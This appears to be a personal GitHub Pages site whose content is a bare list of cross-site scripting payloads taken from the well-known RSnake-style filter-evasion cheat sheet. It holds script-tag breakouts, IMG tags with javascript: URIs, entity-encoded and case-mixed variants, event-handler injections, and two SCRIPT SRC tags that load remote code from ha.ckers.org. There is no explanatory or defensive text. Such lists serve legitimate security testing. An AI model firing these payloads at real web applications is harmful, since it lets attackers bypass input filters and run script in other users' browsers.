 # maciejczyzewski.github.io
~~ Software engineer, hacker, and design enthusiast ~~

';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')>

<IMG SRC=javascript:alert("XSS")>

<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC=# onmouseover="alert('xxs')">

<IMG SRC= onmouseover="alert('xxs')">

<IMG onmouseover="alert('xxs')">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>


<IMG SRC="jav	ascript:alert('XSS');">

<IMG SRC="jav&#x09;ascript:alert('XSS');">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
